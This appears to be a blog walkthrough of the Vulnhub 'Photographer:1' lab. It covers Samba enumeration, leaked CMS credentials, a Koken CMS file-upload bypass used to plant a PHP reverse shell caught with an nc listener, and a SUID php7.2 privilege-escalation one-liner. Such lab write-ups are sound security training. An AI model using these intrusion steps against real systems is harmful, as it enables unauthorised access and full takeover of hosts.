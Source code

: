 ```yaml
---
date: 2020-09-01 00:04:11
layout: post
title: "Photographer 1 Vulnhub Walkthrough"
subtitle:
description: Photographer:1 is a boot2root machine from Vulnhub. This VM is rated easy and good for beginners.
image: /assets/img/uploads/photographer/photographer.webp
optimized_image: /assets/img/uploads/photographer/photographer-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords:
---
```


Today I will be sharing a walkthrough of Photographer:1 which is a boot2root machine available on Vulnhub. There are two flags and our goal is to read all of them. This includes enumerating samba to find some login information and then exploiting a CVE to upload a php shell and then exploiting a SUID to gain a root shell. I've added the IP to my hosts file, so Let's Begin!

```r
┌──(madhav㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.32    photographer.local
```

## Initial Enumeration

I started the enumeration by running a port scan using nmap to look for open ports and default scripts. 

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nmap -sC -sV -oA nmap/initial photographer.local
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for photographer.local (192.168.1.32)
Host is up (0.00034s latency).Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  ssl/http-alt Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2020-08-27T06:27:22-04:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-27T10:27:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.57 seconds
```
We see Samba smbd running on port 139 and 445 and Apache web servers running on port 80 and 8000. I decided to enumerate port 139 and 445 first. First I used <b>smbclient -L</b> to list all the shares available on the server. Just leave the password field blank and press enter.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient -L photographer.local 
Enter WORKGROUP\madhav's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Next I accessed the <b>sambashare</b> using the smbclient. Inside the share I found two files named <i>mailsent.txt</i> and 
<i>wordpress.bkp.zip.</i> I downloaded both the files using the <b>get</b> command.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient '\\photographer.local\sambashare'
Enter WORKGROUP\madhav's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 07:00:07 2020
  ..                                  D        0  Tue Jul 21 15:14:25 2020
  mailsent.txt                        N      503  Tue Jul 21 06:59:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 06:52:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (61.4 KiloBytes/sec) (average 61.4 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (160044.7 KiloBytes/sec) (average 146282.9 KiloBytes/sec)
smb: \> exit
```

The <b>mailsent.txt</b> appears to be a copy of a mail. We can save the emails and names used in the email which may be useful in future.

<center><br>
<img src="/assets/img/uploads/photographer/mailsent.png">
</center>

Also, I tried enumerating the <b>wordpress.bkp.zip.</b> but did not find anything useful there. I suppose that was just a rabbit hole. Next I started enumeration on port 80.

<center><br>
<img src="/assets/img/uploads/photographer/port80.png">
</center>

The port 80 seems to run a beautiful website. Unfortunately, I didn't find anything useful here. 

## User Shell

<center><br>
<img src="/assets/img/uploads/photographer/port8000.png">
</center>

Next I went to port 8000 for further enumeration. This is the Daisa's website mentioned in the <i>mailsent.txt</i> and we can see that this is built using Koken CMS. The first thing I did after reading was to check on Google if some CVE is available for this CMS. I found an <a href="https://www.exploit-db.com/exploits/48706">exploit</a> which is published by the author of this machine itself :)

<center><br>
<img src="/assets/img/uploads/photographer/koken.png">
</center>

To run this exploit, we need to login into the CMS first. The credentials were already with us from the <i>mailsent.txt.</i> I logged in to the Koken CMS with username <i>daisa@photographer.com</i> and password <i>babygirl.</i>

<center><br>
<img src="/assets/img/uploads/photographer/koken-cms.png">
</center>

Now we will upload a php reverse shell and follow the steps as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a> I will be using the php reverse shell by <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a> I opened the upload dialog box by clicking on the <i>Import Content</i> button.

<center><br>
<img src="/assets/img/uploads/photographer/upload.png">
</center>

After selecting the reverse shell, I opened Burpsuite and configured my browser to connect to the Burp proxy. I turned the Intercept on and clicked on the import button. Then, I changed the name from <b>shell.php.jpg</b> to <b>shell.php</b> in the request as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a>

<center><br>
<img src="/assets/img/uploads/photographer/burp.png">
</center>

Once that's complete, you will find a download button on the right, just right click there and choose "Open in New Tab" option. 

<center><br>
<img src="/assets/img/uploads/photographer/download.png">
</center>

We got our shell and now we can read our first flag :)

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [192.168.1.4] from (UNKNOWN) [192.168.1.32] 39398
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:23:29 up 12 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ cd /home/daisa/
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
## Privilege Escalation

The privilege escalation for this machine was not that difficult. I started with searching for all the SUID's available.

```r
www-data@photographer:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```

We see a php7.2 SUID available, I searched for this on <a gref="https://gtfobins.github.io/gtfobins/php/">GTFO Bins</a> and found the way to escalate our privileges by using the following command.  

```r
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```
After executing, we can read our final flag!

<center><br>
<img src="/assets/img/uploads/photographer/root.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/laurenmayhewlm">Lauren Mayhew.</a>
